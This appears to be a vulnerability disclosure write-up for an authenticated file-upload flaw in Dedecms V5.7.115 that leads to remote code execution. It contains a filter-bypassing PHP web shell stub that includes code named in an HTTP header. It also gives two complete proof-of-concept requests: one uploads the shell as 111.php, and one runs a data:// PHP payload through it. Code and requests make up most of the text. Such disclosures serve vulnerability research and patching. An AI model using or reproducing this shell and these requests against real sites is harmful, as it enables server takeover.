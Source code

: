 Dedecms V5.7.115 Arbitrary code execution via file upload vulnerability in the backend.

Access the Backend File Manager module and click File Upload.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240831170104764.png)

First, a random selection of malicious php files were uploaded, and a filter was found to exist that.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240831170129637.png)

After testing it can be bypassed using the following code

```php
require_once(end(apache_request_headers()));
```

The `end(apache_request_headers())` is the first `header` header in the returned http request packet, which we can control, and then the `require_once()` function can be commanded using the data pseudo-protocol.

So upload the contents of the file:

```php
<?php
require_once(end(apache_request_headers()));
```

**Vulnerability Validation:**

Uploading a malicious file poc

```
POST /dede/file_manage_control.php HTTP/1.1
Host: localhost:1110
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------21406382783539806003779668485
Content-Length: 636
Origin: http://localhost:1110
Connection: keep-alive
Referer: http://localhost:1110/dede/file_manage_view.php?fmdo=upload&activepath=
Cookie: menuitems=1_1%2C2_1%2C3_1; Phpstorm-9dbbfc29=4d9b54b0-3f53-4e67-ae29-a3fb9f021bbb; user=admin; name=aa%3Cscript%3Ealert%28111%29%3C%2Fscript%3E; mail=86226999%40qq.com; url=http%3A%2F%2F127.0.0.1; XDEBUG_SESSION=18740; PHPSESSID=ubqqaelnh1pbrcjgek9metfv23; last_vtime=1725083004; last_vtime1BH21ANI1AGD297L1FF21LN02BGE1DNG=613fbd4bd6a29f94; last_vid=admin; last_vid1BH21ANI1AGD297L1FF21LN02BGE1DNG=1cb3f31a783dddcb; _csrf_name_bad816b8=22f97ca1448b13ed105e52ab547e13b5; _csrf_name_bad816b81BH21ANI1AGD297L1FF21LN02BGE1DNG=5bd66f35ef9228e6; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=4070fec0b2589bb3; DedeLoginTime=1725090477; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=61ae1059018877cb
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

-----------------------------21406382783539806003779668485
Content-Disposition: form-data; name="activepath"


-----------------------------21406382783539806003779668485
Content-Disposition: form-data; name="fmdo"

upload
-----------------------------21406382783539806003779668485
Content-Disposition: form-data; name="upfile1"; filename="111.php"
Content-Type: application/octet-stream

<?php
require_once(end(apache_request_headers()));
-----------------------------21406382783539806003779668485
Content-Disposition: form-data; name="B1"

 上传文件 
-----------------------------21406382783539806003779668485--
```

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240831170511398.png)

See that the file has been uploaded successfully, in the root directory

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240831170533304.png)

Accessing the uploaded 111.php file constructs a new header on top of the host heaser header with the contents of the malicious pseudo-protocol utilizing the

```http
rce: data://text/plain,<?php phpinfo();?>
```

poc：

```
GET /111.php HTTP/1.1
rce: data://text/plain,<?php phpinfo();?>
Host: localhost:1110
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: Phpstorm-9dbbfc29=4d9b54b0-3f53-4e67-ae29-a3fb9f021bbb; user=admin; name=aa%3Cscript%3Ealert%28111%29%3C%2Fscript%3E; mail=86226999%40qq.com; url=http%3A%2F%2F127.0.0.1; XDEBUG_SESSION=18740; PHPSESSID=ubqqaelnh1pbrcjgek9metfv23; last_vtime=1725083004; last_vtime1BH21ANI1AGD297L1FF21LN02BGE1DNG=613fbd4bd6a29f94; last_vid=admin; last_vid1BH21ANI1AGD297L1FF21LN02BGE1DNG=1cb3f31a783dddcb; _csrf_name_bad816b8=22f97ca1448b13ed105e52ab547e13b5; _csrf_name_bad816b81BH21ANI1AGD297L1FF21LN02BGE1DNG=5bd66f35ef9228e6; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=4070fec0b2589bb3; DedeLoginTime=1725090477; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=61ae1059018877cb
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```

Successful code execution as shown:

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240831170654160.png)

